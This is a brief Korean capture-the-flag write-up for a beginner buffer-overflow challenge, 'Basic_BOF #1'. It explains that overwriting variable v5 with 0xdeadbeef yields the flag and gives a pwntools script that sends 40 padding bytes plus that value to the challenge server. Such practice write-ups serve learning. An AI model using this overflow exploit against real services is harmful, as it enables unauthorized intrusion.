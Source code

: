# Basic_BOF #1

![](1.PNG)   
IDA로 분석해보면 변수 v5가 0xdeadbeef이면 flag를 얻을 수 있다.   
<br/>

```
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3000)

payload = ''
payload += 'A'*40
payload += p32(0xdeadbeef)

p.send(payload)
p.interactive()
```
